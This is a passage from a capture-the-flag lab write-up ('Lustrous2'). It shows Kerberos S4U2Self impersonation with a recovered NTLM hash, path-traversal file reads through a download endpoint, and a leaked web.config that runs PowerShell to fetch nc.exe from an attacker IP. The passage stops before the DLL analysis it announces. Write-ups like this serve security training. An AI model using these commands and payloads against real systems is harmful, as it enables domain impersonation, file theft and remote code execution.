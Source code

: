 We can try to create HTTP STs for other users using the ShareSvc credentials we have using S4U2SELF :

```bash
getST.py -spn 'HTTP/lus2dc.lustrous2.vl' -dc-ip 'lus2dc.lustrous2.vl' "lustrous2.vl"/"ShareSvc" -hashes :'CA345B5B5E85A8D468FCFBA9F4F8D460' -self -impersonate 'Ryan.Davies' -debug -altservice 'HTTP/lus2dc.lustrous2.vl'

export KRB5CCNAME=Ryan.Davies@HTTP_lus2dc.lustrous2.vl@LUSTROUS2.VL.ccache

curl --negotiate -u : 'http://lus2dc.lustrous2.vl/' -v 
```
![alt text](<../assets/image_lustrous2/5ER RYAN AUTH.png>)

So we are authenticate as Ryan.Davies and we can access to ```/File/Debug``` and ```/File/Upload```

## LFI to find the PIN and get a shell

Ok but before do a firefox on the url, we need to configure him like that :

```console
# in about:config
network.negotiate-auth.delegation-uris: lus2dc.lustrous2.vl
network.negotiate-auth.trusted-uris: lus2dc.lustrous2.vl
network.negotiate-auth.using-native-gsslib: true
```
Now firefox ```/File/Debug```

![alt text](<../assets/image_lustrous2/DEBUG 6ER.png>)

Ok so we can potentially execute somme command but we need to find a ```PIN```, after trying to bruteforce him but with no success, I thought back to the RFI that I used to get the ShareSvc hash and I used it as an LFI to read files on the target machine

```http://lus2dc.lustrous2.vl/File/Download?fileName=C:/Windows/win.ini``` was working, i tried to leak the ```web.config``` so i did ```http://lus2dc.lustrous2.vl/File/Download?fileName=../../web.config``` and we got the ```web.config```

```console
# WEB.CONFIG FILE
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="*" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments='/c echo IWR http://10.8.2.163:8000/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile' stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="inprocess" />
    </system.webServer>
  </location>
</configuration>

```
So as we see there is a DLL, we can try to download it and inspect it with dotPeek to find some creds or the PIN :

